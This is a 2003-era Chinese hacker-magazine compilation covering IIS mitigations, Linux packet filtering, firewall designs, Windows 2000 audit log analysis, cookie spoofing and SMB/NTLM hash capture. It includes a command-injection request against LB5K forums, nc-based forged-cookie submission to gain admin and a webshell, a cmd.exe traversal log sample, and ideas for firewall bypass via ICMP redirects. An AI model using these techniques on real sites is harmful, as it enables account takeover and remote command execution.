- 1. 如果你不需要使用 ASP 脚本，你应该立刻删除“.asp”的脚本映射。可以参考如下步骤删除上述脚本映射：打开 Internet 服务管理器，右击你的服务器，在菜单中选择“属性”栏，选择“主属性”。选择“WWW 服务”→“编辑”→“主目录”→“配置”，在扩展名列表中删除“.asp”项。保存设置，然后重启 IIS 服务。
- 2. 你也可以使用微软提供的一个安全工具 URLScan 来屏蔽分块编码请求。如果你已经安装了 URLScan，它缺省不会禁止分块编码请求，你可以在 URLScan.ini 中的 `[DenyHeaders]` 域中增加下列语句：`Transfer-Encoding:`。这样就可以屏蔽分块编码请求了。微软提供了一个 URLScan 的升级版，它缺省就禁止了分块编码请求。
- 3. 补丁下载地址：  
  - Microsoft IIS 4.0: http://www.microsoft.com/Downloads/Release.asp?ReleaseID=37931  
  - Microsoft IIS 5.0: http://www.microsoft.com/Downloads/Release.asp?ReleaseID=37824

以上工具可以在 http://www.longker.com 下载到。


无羁

前段时间看过一些关于通过在 Win2000 下的本地安全设置里的 IP 安全策略来进行一些简单的数据报控制，以达到一个简单防火墙作用的文章。

Linux 作为一款优秀的网络操作系统，也有这样类似的数据报控制的内嵌工具——ipchains 和 iptables，而且功能绝对不比 Win2000 差，下面我就简单介绍一下这方面的内容。

Linux 的内核在版本 2.2 以及较早版本一直是支持 ipchains，而从 2.3 一直到 2.4 则是使用 iptables，下面首先介绍一下 ipchains。

在介绍之前，先说明一种叫作 CIDR 的方法，知道的朋友请略过不看。CIDR 中文名叫作“无类域间路由选择”，它的主要作用是为了缓解当前 IP 地址的紧缺，它可以将网络分成大量不同大小的网络，而不局限于当前的 A、B、C 等分类方法。比如一个用 CIDR 表示的 IP 地址 215.138.4.0/20，这个地址就是说前 20 位用于网络位，而不是 C 类的 24 位，那它的子网掩码同样也不是默认的 255.255.255.0，而是 11111111 11111111 11110000 00000000，即为 255.255.240.0。

比如一台主机，是网段 192.168.1.0/24 里的一台主机，它希望建立一个防火墙来阻止所有远端主机的 ICMP 包（Ping 用的就是这个协议），那么就可以在 Linux 的终端里输入：

```text
ipchains -A input -p icmp -s 0/0 -d 0/0 -j REJECT
```

- `-A input` 是输入一条规则用来控制进入接口的数据包；
- `-p` 是指定一个协议；
- `-s` 是指源 IP；
- `-d` 是指目标 IP；
- `-j` 标记是指对这个数据报采取的处理方法；
- `-s 0/0` 就是任何源 IP 地址；
- `-d 0/0` 就是任何目的 IP；
- 而 `REJECT` 就是把这些数据包都拒绝了，这样就阻拦了所有的 ICMP。

初步了解后，我们就可以写出一个规则，使主机不能向网段 203.134.45.0/24 发送 ICMP 数据包。

## 黑客研究院

```bash
ipchains -A output -p icmp -s 192.168.1.0/24 -d 203.134.45.0/24 -j REJECT
```

output 就是用来控制从接口传出的数据包，其他解释和上面的例子一样。

同样，你也可以允许或者拒绝来自其他协议和端口的数据包。比如你希望你的机器只能接受来自 21 端口（FTP）的数据包，我们可以这样来完成：

```bash
ipchains -P output DENY
ipchains -P input DENY
ipchains -A output -p tcp -s 0/0 -d 0/0 21 -j ACCEPT
ipchains -A output -p tcp -s 0/0 -d 0/0 20 -j ACCEPT
ipchains -A input -p tcp -s 0/0 -d 0/0 1024: -j ACCEPT
```

这样就完成了这个包过滤的过程。前两句是拒绝所有的传输，后两句分别是允许向远程主机发送 20 和 21 端口的数据包，最后是允许本地大于或等于 1024 的临时端口接受数据包。

其实 ipchains 除了 input 和 output 这两个链之外，还有一个叫做 forward 的链，它的作用是用来控制被伪装或发向远端主机的数据包，一般用于 NAT 处理。

iptables 是现在 Linux 版本一般采用的工具，与 ipchains 相比功能更强大一些，但具体语法相差不多。iptables 有几个不同的表，而 ipchains 只有一个。

```bash
iptables -A INPUT -p icmp -s 0/0 -d 0/0 -j DROP
```

可以看出来，与 ipchains 的区别就是 input 变成了大写而已。

```bash
iptables -A INPUT -p tcp -s 0/0 -d 0/0 --dport 80 -j DROP
```

这里用的是 `--dport 80`，而不是像 ipchains 那样直接注明端口。

如果想把建立的规则删除，也很简单，只要采用 `-D` 标记就可以了。先用 `iptables --line-numbers -nL` 列出现有规则，再用例如 `iptables -D INPUT 3` 删除第 3 条。


提起防火墙（Firewall）这个词，大家都不会陌生吧！防火墙分为黑客防火墙和病毒防火墙，今天我们一起讨论企业级的黑客防火墙。

防火墙在网络安全方面起着很重要的作用。防火墙可被配置成许多不同结构，按技术大致可分为：包过滤防火墙、屏蔽主机防火墙、屏蔽子网防火墙。

## 1. 包过滤防火墙

一看名字就知道它的工作原理了吧，就是对每个数据包进行过滤。IP 数据包具有一定特性，例如 TCP 数据包包含源地址、目的地址、源端口和目的端口，以及协议号等。

现在，来配置一个简单的包过滤防火墙，拒绝接收 202.111.10.0/24 这个网段来的数据包。在路由器上可执行下面命令：

```bash
access-list 1 deny 202.111.10.0 0.0.0.255
```

如果是一台 Windows 2000/XP 计算机，可以用 IPSEC 来做。运行“mmc”并添加“IP 安全策略”管理单元，创建 IP 筛选器列表并添加规则。


图1

最后在筛选器操作中添加一条阻止规则；选中新建的 IP 筛选列表并选择拒绝，最后在 mmc 中指定。这样，一个数据包过滤防火墙就做好了。

如果想更详细地了解基于 IPSEC 的端口过滤防火墙，请参看 2002 年第 7 期《黑客 X 档案》的《扫描工具 + IPSEC 保护网络安全》。这种防火墙在某种意义上很隐蔽。比如，在防火墙上仅仅开放 80（http）、443（https）、53（DNS）三个端口，按照包过滤防火墙的理论来说，应该是很安全的（系统本身漏洞除外）。那么无论是内部还是外面的恶意人士，都无法使用其他服务，如 Telnet。然而世上没有绝对的事情，我们可利用 http 暗藏通道。把主机的 23 端口重定向到 80 端口，这样我们利用特殊的客户端软件远程登录主机的 80 端口，与登录 23 端口没有什么区别，这样就穿透了基于包过滤的防火墙。关于如何建立 http 通道，以后有时间我会详细写出来，在这里只为大家提供一种思路。

## 2. 屏蔽主机防火墙

所谓屏蔽主机防火墙，就是将内部网络与外部网络通过堡垒主机分界，图 2 显示了此类防火墙的结构。


图 2


在 OSI 七层模型中，路由防火墙是在网络层对数据包进行过滤，而堡垒主机是作为应用层的代理，从而实现了内部网络的安全性。如图 3 所示。


图 3

将一台连接内部网络与 Internet 的路由器配置成上面提到的包过滤防火墙，就是图 2 中的路由防火墙。并对其进行配置，使所有的入站连接都被路由到堡垒主机上，堡垒主机可被看作应用级网关。

在堡垒主机上，可以运行各种代理服务，如邮件代理、WWW 代理、FTP 代理，还可运行一个伪 DNS 服务，回答 Internet 上主机的查询请求。但不一定所有的出站服务都要通过堡垒主机（如 Telnet），我们可直接通过路由器而不通过堡垒主机和 Internet 对话；但对于入站服务，要求所有入站数据都先通过堡垒主机。这样就形成了双重的防火墙，即便入侵者破坏了第一道防火墙，还有第二道防火墙。

（右栏续）……了起来，目的是说明路由器所接收的数据包全都会转发到堡垒主机上面。如果把图 2 改变一下，像图 4 那样会怎么样呢？


图 4

现在明白没有？对付这种防火墙的策略主要放在攻击路由器上面，路由防火墙是否配置安全是此防火墙的关键所在。如果修改了路由器的路由表，则数据包不会路由到堡垒主机上面，可以路由到内部网络任意一台与路由器相连的主机上，从而绕过堡垒主机直接进入内部网络。只要能攻击下路由器，在路由器上建立一条静态路由，那么这个防火墙就很顺利地被你攻下了。

有人一定会问，路由器是如何被攻破下来的呢？在谈论这个问题之前，我建议大家看一下 RFC1256 文档，因为我们下一步要做的就是根据 RFC1256 文档中所提到的 ICMP 重定向消息。这种消息是用来帮助主机建立一个更好的路由表，一般情况下这种消息是发给主机的，也可以发给路由器。其过程如图 5 所示。


图 5

- 主机发送 IP 数据包到 R1，这是默认路由。  
- R1 收到 IP 数据包，寻址寻径，发现 R2 是一条正确的路径，于是把数据包转发到 R2。此时，R1 发现此数据包进出的网络接口是同一个，这样 R1 会认为数据包发给 R1 不是一个好的路径。  
- R1 会向主机发送一个路由重定向的信息包，要求主机以后的数据包直接发送给 R2。  

如果入侵者制造错误的 ICMP 消息发送给路由器，就可以更改路由表，从而达到绕过堡垒主机的目的。是不是很有意思？

## 3. 屏蔽子网防火墙

最后向大家介绍屏蔽子网防火墙。屏蔽子网防火墙在本质上和屏蔽主机防火墙是一致的，但比屏蔽主机防火墙多增加了一层保护体系。


要点说说，现在绝大多数局域网采用以太网技术，以太网的特点是本地广播。当其中一台主机发出广播时，网络上的所有主机都接受这个广播，只有真正的目的主机才会对广播作出回应。如果只采用屏蔽主机防火墙而没有 DMZ，当入侵者攻占了堡垒主机后，可以监听本地网络的所有通信；当内部网络使用明文传送机密文件或口令时，入侵者可以用 Sniffer 进行监听，从而获得有用资料。大家都知道路由器可以屏蔽广播，这样即使入侵者进入堡垒主机，也无法监听到内部网络之间的通信。

到此为止，防火墙的体系基本结构就介绍完了，希望对大家有所帮助。

## Win2000 入侵日志分析

无琴

实验目的：让初学者通过入侵实验尝试读懂日志变化。  
实验环境：局域网（LAN）  
机器甲：best  
机器乙：ecnu-wuqin  
操作方式：用机器甲来尝试攻击机器乙，然后提取机器乙的日志数据以供观察。

### 引子

相信大家一定都已经知道 Win2000 有日志功能，也知道入侵后会留下尾巴，但对于 Win2000 的日志你是否能读懂呢？如果被入侵了，如何来观察日志的变化呢？今天我们的实验正是为那些想了解日志的朋友而准备的。

由于是为初步了解而准备，所以笔者取了一个比较简单的环境。机器甲、乙都在同一个局域网（LAN）中，机器甲 best 的 IP 地址为 192.168.1.2，操作系统为 2000pro；机器乙 ecnu-wuqin 的 IP 地址为 192.168.1.3，操作系统为 2000ser。

### 环境设定

有些朋友也许会发现，他的安全日志从来没有任何记录，这是怎么回事呢？因为 Windows2000 系统在缺省安装状态下，是没有打开安全日志记录开关的。所以要让日志工作，得先设定相关选项。

### 一、账户登录的日志

其实，如果你想记录一些安全事件，首先要对这些事件做审核。审核是在 Win2000 的“管理工具→本地安全策略→本地策略→审核策略”中。这里可以看见有一些审核事项；我们首先选择“审核登录事件”，双击它会出现图 1 所示的对话框。


选择“成功”“失败”，这样系统就会在安全日志里记录关于账户登录成功失败的信息。这时我在 ecnu-wuqin 里将管理员和 guest 的账户名颠倒一下，这也是为了在测试期间保证我机器的安全。具体做法：在“本地安全策略→本地策略→安全选项”里可找到重命名来宾账户和重命名系统管理员账户；经过设置后，我的管理员名称现在是 guest，而来宾则是 administrator。然后把 administrator 密码清空，这时候在 best 里使用 X-Scan 来扫描。为了简单，我们只扫描 NT-Server 弱口令，扫描结果如图 2 所示。

扫描结束后，我们来看一看 ecnu-wuqin 的安全日志，这时可发现，在安全日志里就有了不少账户审核成功或失败的记录。我们摘取其中的几条做一下简单分析（图 3）；通过这条日志，我们可很清楚地看出来，BEST 来尝试用我的 guest 账户名登录，但没有成功，失败原因是密码错误；再看一条成功的审核（图 4），通过这条日志，我们同样可看出来，best 成功地用 administrator 登录了我的机器。


由于图 4 中下拉条的原因，所以我把日志的整个内容写出来给大家做个参考。

```
成功的网络登录：
用户名：administrator
域：ECNU-WUQIN
登录 ID：(0x0,0x2FB62C)
```


得到了登录的机器名 **BEST** 后，只需 `ping BEST` 就可方便地得到登录机器的 IP 地址。

通过账户审核，我们可以从日志里读出很多信息，可以知道是不是有人对你的账户进行扫描。如果别人使用字典来破解你的管理员密码，那么更容易早发现，以便做出对策。或更直接地，你可发现账户已被非法入侵者利用了，这时你就应该对系统做个整体检查了。

### 二、对象访问日志

这也是一个非常有用的安全日志，首先还是要做审核。这次我们在审核策略里选择审核对象访问，同样是选择成功、失败。这个审核的作用是将别人对你的文件或文件夹做的动作进行日志记录。

例如在 `ecnu-wuqin` 里的 D 盘建一个文件夹叫“测试”，右击该文件夹，选择“属性→安全→高级→审核”。如果你在“属性”里看不见“安全”，说明你的文件系统可能是 FAT 而不是 Win2000 推荐使用的 NTFS。可先把文件系统变为 NTFS（如 `CONVERT volume /FS:NTFS`）。

在“审核”里首先添加你要审核的对象，一般对所有用户都进行审核，我们选择 `everyone` 组。当然你也可根据需要选择具体用户名或工作组名，然后即可看到很多可审核事件（图 5）。由于这里只做实验，随便审核几项即可。此时我在 **best** 机器上映射我的 d 盘，方法是：`net use z: \\192.168.1.3\d$ "密码" /user:"guest"`，这样 best 上就有一个 z 盘映射到我的 d 盘。

映射除了用 `net` 命令外，右击网上邻居，可以看见映射网络驱动器，这样也可以很简单地映射一个网络驱动器。


命令成功完成后，我打开“测试”这个文件夹，然后再看这个文件夹的属性，最后将子文件删除。这时再看安全日志，又新出了很多记录。如果看不见请刷新一次。

这次日志全是对象访问了，而不是账户审核。下面截取一些事件来研究一下，如图 6 所示。由于下拉条关系，我把日志记录写下来：

```text
打开的对象
对象服务器: Security
对象类型: File
对象名称: D:\测试
新句柄 ID: 1044
操作 ID: 0,3202000
进程 ID: 8
主要用户名: ECNU-WUQIN$
主要域: WORKGROUP
主要登录 ID: (0x0,0x3E7)
客户端用户名: guest
客户端域: ECNU-WUQIN
客户端登录 ID: (0x0,0x30A500)
访问: ReadAttributes
特权: -
```


我们明显看出来，客户端通过 `guest` 用户对这个“测试”文件夹读取了属性（`ReadAttributes`），类似还有打开目录（`ListDirectory`）的日志：

```text
打开的对象
对象服务器: Security
对象类型: File
对象名称: D:\测试
新句柄 ID: 1044
操作 ID: 0,3201979
进程 ID: 8
主要用户名: ECNU-WUQIN$
主要域: WORKGROUP
主要登录 ID: (0x0,0x3E7)
客户端用户名: guest
客户端域: ECNU-WUQIN
客户端登录 ID: (0x0,0x30A501)
访问: READ_CONTROL, ReadData (或 ListDirectory)
特权: -
```

还有删除（`DELETE`）的日志：

```text
打开的对象
对象服务器: Security
对象类型: File
对象名称: D:\测试
新句柄 ID: 1052
操作 ID: 0,3292248
进程 ID: 8
主要用户名: ECNU-WUQIN$
主要域: WORKGROUP
主要登录 ID: (0x0,0x3E7)
客户端用户名: guest
客户端域: ECNU-WUQIN
客户端登录 ID: (0x0,0x30A501)
访问: DELETE
特权: -
```

通过这些日志的查看，我们可对一些重要文件进行安全审核，尤其是对同一台机器的其他用户进行检测，来检查他们是不是有试图做违反规定的动作以便提出警告。另外，本地对文件的访问和远程访问在对象访问的日志记录里有很大不同，我这里选一条本地访问的日志：

```text
打开的对象
对象服务器: Security
对象类型: File
对象名称: D:\测试\...
新句柄 ID: 2296
操作 ID: (0,3318639)
进程 ID: 292
主要用户名: guest
主要域: ECNU-WUQIN
主要登录 ID: (0x0,0x144E2)
（后续字段在原图下方被截断）
```

```text
客户端登录
客户端登录 ID: -
访问: READ_CONTROL
      SYNCHRONIZE
      ReadData (或 ListDirectory)
      ReadEA
      ReadAttributes
特权: -
```

可以看出来，本地访问在客户端上是没有数据的，这样我们就可很方便地区别本地访问和远程访问。如果你发现了一些远程访问的对象访问成功日志，那么就可以怀疑受到了攻击。

> **LOOK 注意**  
> 一般黑客入侵后，喜欢在 `C:\WINNT\system32` 下留下一些工具，或在 `C:\Documents and Settings\用户名\开始\程序\启动` 里留下后门工具。

### 三、其他一些日志

还有一些日志在这里简单提一下。审核里还有一条是审核账户管理，这个日志可很方便地看出对用户的添加、对用户权限的修改，比如下面两条日志：

```text
创建了用户账户
新账户名称: aaa
新域: ECNU-WUQIN
新账户标识: ECNU-WUQIN\aaa
调用方用户名: ddd
调用方所属域: ECNU-WUQIN
调用方登录 ID: (0x0,0x34306)
特权: -
```

添加了安全策略启用的本地组成员：

```text
成员名称: -
成员 ID: ECNU-WUQIN\aaa
目标账户名称: administrators
目标域: Builtin
目标账户 ID: BUILTIN\Administrators
调用用户名称: ddd
调用域: ECNU-WUQIN
调用者登录 ID: (0x0,0x34306)
特权: -
```

第一条日志是添加了一个新的账户 aaa，后一条则是将 aaa 放在 administrators 组里，而做这些动作的很明显是一个叫 ddd 的账户。

> **LOOK 注意**  
> 日志记录将占用一定的系统资源和硬盘空间，不需要做太多的审核，这样会影响系统运行。

除了安全日志外，如果开了 http 或 ftp 服务，也有相应日志记录，常见位置在 `C:\WINNT\system32\LogFiles\W3SVC1` 和 `C:\WINNT\system32\LogFiles\MSFTPSVC1`。

```text
2003-04-04 19:21:48 192.168.1.2 192.168.1.3 80 HEAD /_mem_bin/../../../winnt/system32/cmd.exe /c+dir 404
```

这就是一条 IIS 日志，可明显看出来源 IP、目标 IP、时间和访问内容。日志分析是管理员每天要做的事情，通过分析可防微杜渐，保证网络和系统安全。


最近，网上流行 web 脚本入侵，常见方法有 SQL Injection 和利用 web 脚本中对 cookie 变量过滤不严进行入侵。cookie 可理解为网页服务端记录用户信息的小文本文件。

不同系统下 cookie 文件存放目录不同，例如 Win9x 在 `drive:\windows\cookies`，Win2k 在 `drive:\Documents and Settings\%用户名%\Cookies`。文件名常见格式如 `用户名@站点[次数].txt`。

### 三、cookie 呈现图

朋友 PsKey 最近写了篇《动网论坛(DVBBS)存在严重漏洞》，文章大意是某些脚本文件未过滤用户输入，导致可被 SQL 注入利用并危及论坛安全。

文中举例说明管理员操作时提交请求中携带的重要参数可能被利用，需关注请求内容和 cookie 数据安全。

```http
POST /asp/dvbbs/admin_postings.asp?action=delet HTTP/1.1
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, ...
Referer: http://www.target.com/asp/dvbbs/admin_postings...
```

```http
asp?action=删除主题&BoardID=2&ID=2
Accept-Language: zh-cn
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0; .NET CLR 1.0.3705)
Host: target.com
Content-Length: 124
Connection: Keep-Alive
Cache-Control: no-cache
Cookie: aspsky=userhidden=2&password=...&userid=1&...
...
submit=...
```

这些数据是管理员在删帖子时与动网主机的通信数据。很多菜鸟看到这些就不明白了，pskey 是如何得到这些数据的呢？特别是最后一大段的 cookie 数据是怎样探测到的？……我介绍的 WinSock Expert 这个小工具也可帮我们探测到这些数据。

举个例子：我将登录在本机上架设的动网论坛（图1）。我选择的是 cookie 保存一天，看看 WinSock Expert 会嗅探到什么数据呢？此时打开 WinSock Expert（图2）。


点“打开”图标，在弹出窗口的菜单里找到动网的登录页面（图3）。点 open 进行监听，然后登录动网论坛。登录完毕后，再看看 WinSock Expert 在本机接收到哪些 cookie 数据（图4）。


看到没有？我们接收到了和 pskey 在文章中提到的类似数据，里边包含了 cookie 的各项值。当然用这个工具，你不但可监听发送和接收的 cookie，还可用来帮助你调试网络应用程序、分析网络程序的通信协议，并且在必要时能修改发送的数据。


还是先看网友 pskey 的一篇《LB5K论坛 remmail.cgi 存在认证和过滤不严漏洞》吧！……由于 remmail.cgi 存在认证和过滤不严漏洞，可能导致非法用户控制论坛或以 web 权限在系统上执行任意命令。

```http
GET /perl/lb5000mx/cgi-bin/remmail.cgi?...member=system%20%40ARGV...
```

## 黑客研究院

```http
GET / HTTP/1.1
Host: target.com
Cookie: amembernamecookie=system%20%40ARGV
```

```text
aspsky_userid=1&usercookies=1&userhidden=2&password=469e...
&userclass=%B9%DC%C0%ED%D4%B1&username=admin;
192.168.1.3/asp/dvbbs6/...
```

菜鸟又不明白了，这些数据如何发送呢？……开始我也不会，后来自写小软件并在论坛请教，学到一个 cookie 的发送方法。工具界面甚至写出了类似 nc.exe 的提交方式。

```bash
nc -vv www.target.com 80
get /xxx/xxx.cgi?xxx=xxx HTTP/1.1
host:www.target.com
cookie:xxxxx=xxxxx
```

看我在本机做的实验（图5），这是用 nc 提交 cookie 的方法。图6 表示得到了一个 webshell。


> Look~ 注意：用 Win2k 自带的 telnet 工具也可做到，方法和 nc.exe 类似，不过不太容易控制字符串输入。

## cookie 管理工具 iecookiesview

先用记事本查看论坛登录后的 cookie 文件，位于 Cookies 目录下，文件名类似 administrator@dvbbs6[1].txt，内容如下：

啊！这样好多地方看不明白，还有些乱码。我们用 iecookiesview 打开来看看（图7）。


从图7中可看到 cookie 各字段：key、value、domain、expire、modified、secure 等含义，并能自动将 URL 编码中文转换为汉字。

iecookiesview 的好处是可以轻松修改 cookie 值。若获取到管理员 cookie，可将普通用户 cookie 对应字段改写（图8）。


将管理员各项 cookie 值改到普通用户 cookie 后，点击 modify cookies 即可生效；重开 IE 登录论坛后可变为管理员。随后将继续用 nc.exe 与 WinSock Expert 做进一步演示。

我写了个简单的 asp 脚本 level.asp，源码简单说明如下：

```asp
<%response.write now()%>
<%response.write "<br>"%>
<%response.write "<html><script>document.write(document.cookie)</script></html>"%>
' 说明：可以输出运行 level.asp 这个网页的 cookie 值
if Request.Cookies("level")<>"" then
  response.write "<html><script>document.write(document.cookie)</script></html>"
  if request.cookies("level")="user" then
    response.write "<html><script>alert('you are a user')</script></html>"
  else
    if request.cookies("level")="admin" then
      response.write "<html><script>alert('you are administrator!')</script></html>"
      set fso=server.createobject("scripting.filesystemobject")
      set fil=fso.opentextfile(server.mappath("lcx.txt"),8,true)
      fil.writeline "you are admin!"
    end if
  end if
else
  response.write "<html><script>alert('你没有cookie值')</script></html>"
end if
%>
```

现在，我们执行 level.asp，cookie 的变量 level 还没有收到 user 和 admin 的值，看看会发生什么（图9）。


如果我们将 `<%response.cookies("level")="user"%>` 这行代码插在第三行后，再次运行这个 level.asp 脚本时，它会自动将 cookie 的变量 level 值设为 user，结果如图10。

此时，我们通过 WinSock Expert 抓数据（图11）。抓到下列 cookie 数据：


```text
cookie: iscookies=0; BoardList=BoardID=Show; level=user;
ASPSESSIONIDQGGGQSLC=NOIBEOPACLBQJFLGFLEDICNH
```

现在，我们要做的是欺骗 level.asp，让它以为我们提交 cookie 的值为 admin，这样会在 level.asp 同目录下生成 lcx.txt。分析源码得知，只要提交 cookie 的变量 level 值为 admin，就可达到想要的结果。我们将 WinSock Expert 抓的数据改成如下内容：

```text
cookie: iscookies=0; BoardList=BoardID=Show; level=admin;
ASPSESSIONIDQGGGQSLC=NOIBEOPACLBQJFLGFLEDICNH
```

现在，我们再用 nc 提交 cookie 值，骗过 level.asp。仔细看图12，最下边有一行“alert('you are administrator!')”，这说明我们成功了。经查看，果然在 level.asp 同目录下生成了 lcx.txt，内容是 you are admin!


这三个 cookie 小工具，我只介绍到这儿了。如果你能够熟练运用，相信肯定会对入侵 Web 脚本有一定的帮助。另外，需要说明的是，本文写作中引用了 pskey 的部分文章，cookie 欺骗部分参考了 czy 的 cookie 欺骗教程。在此表示感谢。（注：本文中提到的三个工具和 level.asp 文件，已经打包放在光盘里了——3cookie.rar。）


## SMB会话劫持 原理篇

在上期的《X档案》中，曾经提及了关于实现 SMB 会话劫持的文章（我是听雪莲说的，杂志老大一直不给我，我还没看到，5555……）。所以，我认为有必要写一篇原理篇，以让大家做到“知其然，亦须知其所以然”。

明白了原理后，大家就会发现，其实不只是 CAIN 才能实现 LM 和 NTLM 散列的抓取，任何足够强悍的 sniffer 都可完成这一工作。

不多说废话了，下面，我们就开始吧！

现在，XP 中没有 139 端口而只开了 445 端口。可见，微软已经避开了他们的 NETBEUI 协议，丢掉了他们的 NETBIOS 端口，而正式启用了新标准——TCP 端口 445。

总之，无论是 Win9x 还是 Win2k，微软都赋予了它们 SMB，因此，这使得 SMB 的会话劫持成为了可能。

### 一、从SMB谈起

既然讲的是 SMB 会话劫持，那么，了解 SMB 则是非常有必要的。简单地说，SMB（Server Message Block，服务信息块）就是一种协议，一种规定了如何实现网络上的设备、文件共享的协议。

而 SMB 在 Windows 中的实现则是 NBT（NETBIOS over TCP/IP）。当然，NETBIOS over NETBEUI 实际上也是 SMB 在 Windows 网络中的一种实现，但 NETBEUI 协议并不适合于广域网，所以，其发展有一定的局限性。

了解了 SMB 在 Windows 网络中的实现。那么，有个名词我希望大家也能知道，那就是“CIFS”。CIFS 其实是指在 Windows 网络中的 SMB（呵呵，这里微软又使用了其惯用的手段——抢夺别人的好东西，变成自己的，厉害！）。

### 二、SMB如何在Windows上实现

刚才我已经说过了，在 Windows 中，最常见 SMB 的实现方法是 NETBIOS over TCP/IP（NBT）。但这里我们要说的不是这个，而是一个现实的问题。

大家都知道，在 Windows 中，只要安装了 NETBEUI 协议并将其正确绑定到 TCP/IP 上，就完成了 NETBIOS over TCP/IP 这一工作。这时，我们就实现了 Windows 上的 SMB（关于如何完成 NETBIOS over TCP/IP，网上搜一下，能搜出一堆来，我就不重复了）。

绑定完成后，就出现了一个最常见的问题，那就是端口的问题。相关的问题很多朋友都有问过，所以在这里借助这个话题来给大家澄清一下。

在 Win9x 系统中，默认绑定了 NETBEUI，即默认就有 NBT。而该端口就是我们常说的 NETBIOS 端口，端口号为 TCP 端口 139。

在 Win2k 系统中，除了 NETBIOS 外，我们会发现，还有一个 TCP 端口 445，这就是微软为他们的 SMB 准备的另外一个端口。而且，大家也应该知道，当连接 Win2k 的共享时，139 端口如不能正常响应，就会自动转发向 445 端口进行请求，这就是因为 445 端口是 Win2k 上特有的一个 SMB 端口。

在后面的系统中，也就是 Windows XP（Windows Server 2003 好像使用得不是很普遍，因此就不讨论了），大家更会惊奇地发现……

### 三、再谈LM HASH和NTLM HASH

说到这两个东西大家应该不陌生，尤其是 NTLM。大家熟悉的 Telnet 就是使用了 NTLM 验证。不过，希望大家要清楚，我们这里说的 LM HASH（LM 散列）与 NTLM HASH（NTLM 散列），和我们的 NTLM 验证虽然存在一定关系，但却有着本质上的区别。

在介绍 LM HASH 和 NTLM HASH 前，先简单描述一下 NTLM 验证的过程（假设一个服务器 S，和一个客户机 C，这里省略了一段协商过程，在后面会详细叙述）：

- 1. C 向 S 发送登录时使用的用户名（明文传送）；
- 2. S 接收到后，在本地随机产生一个 challenge（挑战），并将它发送给 C；
- 3. C 在本地将自己的密码加密为密码散列，然后再用密码散列对获得的 challenge 进行加密，这就得到了一个 response（响应）；
- 4. 然后，S 获得 response 后，将用户名、challenge 和 response 这样三样东西发送到域控制器上或本地机的 LSA 中（这要依环境而定，系统中会有服务提供专门的检测，所以，这个过程是不需要我们关心的），以进行校验；
- 5. 域控制器或本地机得到这三样东西后，先取出用户名，然后在自己的 SAM 数据库中进行查找该用户名。找到该用户名后，提取其密码散列，并使用其密码散列对 challenge 进行加密。然后将加密结果和 response 进行对比，如果相同，则认证通过；如果不同，则验证过程失败。

以上就是 challenge/response（挑战/响应）验证机制。

这个过程看起来并不难，而且从表面上来看，其实就是我使用的登录用户名和密码是否在对方的 SAM 数据库中，如果存在，是否相同。如果两个条件均满足，则验证就通过了。

OK，那些东西都说完了，再讲一下 LM 和 NTLM 是什么？当我们访问一个共享资源时，常常会要求输入一个密码，输入后便可访问该资源。可在 SMB 刚刚出现时，这个密码在网络上的传输是明文的。随后出现了 LAN Manager Challenge/Response（LM 挑战/响应验证机制）。接下来，由于 LM 验证中本身存在的问题，暴露了其危险性，因此，此时微软又再次使用了它惯用的手段，将 LM 纳为己有，并且做了一些修改，成为了 NTLM 验证机制（但这些修改并不能从根本上解决安全问题，至于为什么，我在后面将会讲到）。

上面说了好久好久的 LM HASH 和 NTLM HASH，其实就是指在 LM 和 NTLM 过程中的被密码散列加密过的 challenge（也就是我们所说的 response）。绕了好大一圈，这下大家应该明白了吧！

## Win2k 的 SMB 会话劫持

如果大家有什么不明白的地方，和前文结合起来谈一下。接下来，我们将进入主题，所以，前面的东西大家一定要搞懂。

kerberos v5 验证方式是在 Win2k 及其后继版本中才有提供的一种验证方式，在 Win2k 的域中才使用的。因此，任何一个 SMB 的会话过程，只要满足下列条件，验证方式将为 NTLM：

- 1. 会话双方的主机不在域中；
- 2. 会话双方虽然在域中，但该域为 Windows NT 的域，不提供 kerberos v5 验证方式；
- 3. 会话双方在 Win2k 的域中，但其中一方为 Win2k 以前的版本（如 Windows NT）。

以上任何一种情况，SMB 会话过程的验证方式都将为 NTLM，这就为我们的 SMB 会话劫持提供了一个很大的范围和空间。接下来，我们以实例来说明，同时讲述 Win2k 的 SMB 会话过程。

我们要使用的工具 Ethereal（for Win 版，光盘中有收录）是 *NIX 下的一个 sniffer，这里用的是 for Win 版。

> **小提示**
>
> sniffer（也叫嗅探器）是一个网络分析工具，此类工具可截获网络中的数据包，常用于协议分析和会话过程观察。

在我的计算机上运行 Ethereal，点“Capture→start”，然后选择网卡，按“OK”开始。

在另外一台主机上选择“开始→运行”，输入 `\\python\c$`（注：python 为我使用计算机的主机名），然后回车，这时会出现要求用户名和密码的对话框，到此为止（不需要输入用户名和密码），停止。在运行着 Ethereal 的主机上停掉 Ethereal，这样就完成了 SMB 会话劫持关键的一步。

OK！看这里 Ethereal 抓到了什么（下面，我结合 Ethereal 抓到的数据来讲解 SMB 会话过程）。首先看一下图1。


图1中可看到两个过程。先看上面，有四个 NETBIOS 的会话，因为我是在局域网中通过 python 这个主机名来对主机进行访问的，因此，这四个 NETBIOS 会话过程其实是一个 NETBIOS 名的查询过程（该过程进行了两次）。“Name Query for PYTHON<20>”这一句的意思是：查询 NETBIOS 名为 PYTHON 的工作站（从 `<20>` 可看出 PYTHON 为工作站）。接下来一句“Name Recognized PYTHON<20>”，就是查询的响应结果了。

然后，会看到这两个过程：session initialize 和 session confirm。

这里，就完成了 session（会话）的初始化和确认工作。最初工作已经完成，接下来 SMB 会话就要正式开始了。从图2中，可清楚地看到 SMB 会话的最初一个过程：Negotiate Protocol Request 和 Negotiate Protocol Response。


Negotiate Protocol 译为“协商协议”，这里，就是协议请求和协议应答的一个过程。到底要协商什么呢？我们还要看具体内容才能知道（图3）。


这里，我们查看 Negotiate Protocol Response 的内容，不难看出，这里协商的结果就是使用 NTLM 验证机制。

协商完成，接下来就是验证过程了。整个 NTLM 验证过程我们已在前面简单讲述过了，这里不再重复。

## 黑客研究院

要抓的数据是哪些：第一，challenge；第二，LM HASH；第三，NTLM HASH。以上三个便是我们需要的。下面说一下为什么需要这三个东西。

